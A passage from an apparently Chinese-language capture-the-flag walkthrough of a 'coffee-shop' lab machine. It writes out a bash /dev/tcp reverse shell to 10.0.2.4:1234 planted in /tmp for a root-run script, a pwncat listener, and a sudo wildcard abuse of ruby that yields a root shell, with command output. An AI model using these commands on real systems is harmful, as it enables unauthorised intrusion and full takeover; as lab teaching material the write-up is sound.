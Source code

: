 查看一下相关内容：

```bash
#!/bin/bash

/bin/bash /tmp/*.sh
```

啊，这，在`tmp`创建一个`.sh`脚本，脚本内容是尝试反弹一个shell：

```bash
# tuna
cd /tmp;
echo "bash -c 'exec bash -i &>/dev/tcp/10.0.2.4/1234 <&1'" > exp.sh

# kali
pwncat-cs -lp 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404011325647.png" alt="image-20240401131521143" style="zoom:50%;" />

### 信息搜集

```bash
sudo -l
Matching Defaults entries for shopadmin on coffee-shop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

牛蛙，ruby是root权限！

查看一下：

```bash
cat /opt/shop.rb
puts "C0FF33 SHOPS R L33T"
```

看到哪个`*`了吗，这表明可以在中间添加任意字符：

```bash
echo "system '/bin/bash'" > /tmp/fuck.rb
sudo /usr/bin/ruby /tmp/fuck.rb /opt/shop.rb
```

然后就获得了root！

```css
sudo /usr/bin/ruby /tmp/fuck.rb /opt/shop.rb
root@coffee-shop:/home/shopadmin# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@coffee-shop:/home/shopadmin# cd /root;ls -la
total 64
drwx------  6 root root 4096 Feb  3 10:31 .
drwxr-xr-x 19 root root 4096 Jan  3 13:36 ..
-rw-------  1 root root 4345 Feb  3 10:32 .bash_history
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jan  3 18:40 .cache
-rw-------  1 root root   20 Jan  3 18:20 .lesshst
drwxr-xr-x  3 root root 4096 Jan  3 13:45 .local
-rw-------  1 root root 1539 Jan  3 17:08 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   25 Feb  3 10:31 root.txt
drwx------  3 root root 4096 Jan  3 13:37 snap
```